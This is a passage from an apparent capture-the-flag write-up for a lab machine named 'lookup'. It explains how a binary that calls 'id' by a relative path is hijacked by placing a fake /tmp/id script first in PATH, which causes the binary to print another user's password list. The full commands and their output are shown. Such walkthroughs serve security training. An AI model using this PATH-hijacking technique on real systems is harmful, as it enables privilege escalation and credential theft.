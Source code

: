```c
  uVar3 = 0;
}
```
### **Path Hijacking**

The problem with the binary is that it runs the `id` command with a relative path, which allows us to hijack it by manipulating the `PATH` environment variable.

When we run a program without an absolute path, Linux tries to find the path to the executable by utilizing the value of the `PATH` environment variable.

We can see the value of the `PATH` variable as follows:

```console
www-data@lookup:/var/www$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

For instance, when we execute the `id` command, the system checks each directory listed in the `PATH` variable, from left to right, to locate the id executable. Once found, it executes the program.

The key here is that we can modify the `PATH` variable. By doing so, we can place a custom executable named `id`—for example, a bash script that outputs `uid=33(think) gid=33(www-data) groups=33(www-data)`—in a directory such as `/tmp`, and make it universally executable.

```console
www-data@lookup:/tmp$ echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > /tmp/id
www-data@lookup:/tmp$ chmod 777 /tmp/id
```

Next, we can modify the `PATH` variable to put `/tmp` first, before any other directory, as such:

```console
www-data@lookup:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@lookup:/tmp$ export PATH=/tmp:$PATH
www-data@lookup:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

As we can see, now when we run the `id` command, it executes `/tmp/id` instead of `/usr/bin/id`, and we get our modified output:

```console
www-data@lookup:/tmp$ which id
/tmp/id
www-data@lookup:/tmp$ id
uid=33(think) gid=33(www-data) groups=33(www-data)
```

Now, we can run the `/usr/sbin/pwm` binary, and due to the modified `PATH` variable, it will also run `/tmp/id`, get `uid=33(think) gid=33(www-data) groups=33(www-data)` as the output of the `id` command, extract the username as `think`, and then print the contents of the `/home/think/.passwords` file as follows:

```console
www-data@lookup:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
...
jose.2856171
```
